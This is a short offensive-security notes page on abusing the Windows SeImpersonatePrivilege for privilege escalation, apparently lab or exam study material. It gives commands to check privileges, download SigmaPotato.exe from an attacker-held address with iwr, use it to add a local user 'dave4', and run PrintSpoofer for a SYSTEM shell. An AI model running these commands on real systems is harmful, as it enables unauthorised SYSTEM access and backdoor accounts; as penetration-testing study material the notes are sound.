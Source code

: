 # SeImpersonatePrivilege

Non-privileged users with assigned privileges, such as _SeImpersonatePrivilege_, can potentially abuse those privileges to perform privilege escalation attacks. _SeImpersonatePrivilege_ offers the possibility to leverage a token with another security context.

By default, Windows assigns this privilege to members of:

* local _Administrators_ group&#x20;
* _LOCAL SERVICE_, _NETWORK SERVICE_, and _SERVICE_ accounts.

Check privileges:&#x20;

```powershell
whoami /priv
```

* <mark style="color:red;">`SeImpersonatePrivilege - Impersonate a client after authentication - Enabled`</mark>&#x20;

Download Sigma Potato on windows machine:

{% embed url="https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe" %}

{% code overflow="wrap" %}
```powershell
iwr -uri http://192.168.48.3/SigmaPotato.exe -OutFile SigmaPotato.exe
```
{% endcode %}



Use Sigma Potato to add a new user:

```powershell
.\SigmaPotato "net user dave4 lab /add"
```

{% embed url="https://jlajara.gitlab.io/Potatoes_Windows_Privesc" %}



Printspoofer:

If you have an **interactive** shell, you can create a new SYSTEM process in your current console.

```
PrintSpoofer.exe -i -c cmd
```
